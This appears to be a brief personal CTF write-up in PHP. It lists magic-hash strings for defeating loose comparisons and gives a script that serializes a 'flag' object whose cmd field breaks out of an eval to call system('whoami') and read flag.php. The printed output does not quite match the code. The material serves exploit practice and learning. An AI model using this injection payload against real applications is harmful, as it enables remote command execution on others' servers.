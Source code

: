 ![[Pasted image 20231205203923.png]]
s214587387a
QNKCDZO
0e215962017


![[Pasted image 20231205214243.png]]
```php

 <?php
// 照抄一份flag类的定义
class flag
{
    public $cmd='index.php';

    public function __destruct(){
        if (preg_match('/\w+\((?R)?\)/', $this->cmd)){
            eval('$a="'.$this->cmd.'";');
        }
        else {
            die('hack!!!');
        }
    }
}
$class = new flag();
$class->cmd = '1";phpinfo();highlight_file("flag.php");system("whoami");"';
$class_ser = serialize($class);
print_r($class_ser);

```
输出：O:4:"flag":1:{s:3:"cmd";s:55:"1";time();highlight_file("flag.php");system("whoami");"";}


